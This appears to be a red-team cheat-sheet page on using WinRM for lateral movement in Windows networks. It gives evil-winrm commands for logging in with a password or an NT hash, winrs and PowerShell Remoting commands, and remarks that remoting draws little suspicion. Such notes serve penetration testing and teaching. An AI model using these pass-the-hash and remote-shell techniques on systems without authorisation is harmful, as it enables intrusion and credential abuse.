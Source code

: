 ```yaml
---
label: WinRM
subLabel: (winrs, PS Remoting)  
---
```


# Windows Remote Managament (WinRM) for Lateral Movement

> **Requirements**:
>
> * Credentials (password, NT hash, Kerberos TGT) of a member of the local **Administrators** group on the target machine.
> * WinRM enabled on target host (enabled by default on Windows Server, disabled by default on client Windows).
> * Firewall: WinRM allowed (allowed by default).

WinRM is enabled by default on Windows Server 2012 and above. It's disabled by default on client Windows. All of the WinRM communication is over a single port (5985/TCP for HTTP, 5986/TCP for HTTPS).  Logon via WinRM is of the **Network type** (no reusable credentials). However, in Windows built-in tooling there's a way to delegate credentials to established session (below). By default, if you want to use WinRM, you need to be a **local administrator** on the target machine.

Linux:

```bash
# Using password
evil-winrm -i $host -u $username -p $password

# Using NT hash
evil-winrm -i $host -u $username -H $nt_hash

# TODO: Using Kerberos TGT
```

Windows ([winrs](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/winrs)):

> **IMPORTANT**: Using `winrs` the `-r` parameter must be provided as **hostname**, not an IP address.  

```powershell
# Using password
winrs -r:$hostname -u:$domain\$username -p:$password "cmd.exe"

# Using Kerberos TGT (in-memory)
winrs -r:$hostname "cmd.exe"
```

{/* TODO: winrs /allowdelegate */}

## PowerShell Remoting

Powershell has built-in ability to run commands remotely on different machines - so-called PowerShell Remoting feature. It's achived using WinRM protocol under the hood. It's commonly used in enterprise management tasks so it's not very suspicious.

Windows:

```powershell
# Using password
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credentials = New-Object System.Management.Automation.PSCredential $username, $securePassword;
Enter-PSSession -Computername $host -Credential $credentials

# Using Kerberos TGT (in-memory)
Enter-PSSession -ComputerName $host
```

{/* TODO: Powershell Remoting with CredSSP */}

## Enable WinRM with PowerShell

If you have administrative access to the machine (e.g. via SmbExec or RDP) you can activate WinRM with PowerShell.

```powershell
# All configuration at once (it might take a while)
Enable-PSRemoting
```

## Resources

* [Doctor Scripto, _Enable PowerShell "Second-Hop" Functionality with CredSSP_](https://devblogs.microsoft.com/scripting/enable-powershell-second-hop-functionality-with-credssp/)
* [Microsoft, _Making the second hop in PowerShell Remoting_](https://learn.microsoft.com/en-us/powershell/scripting/learn/remoting/ps-remoting-second-hop?view=powershell-7.4)
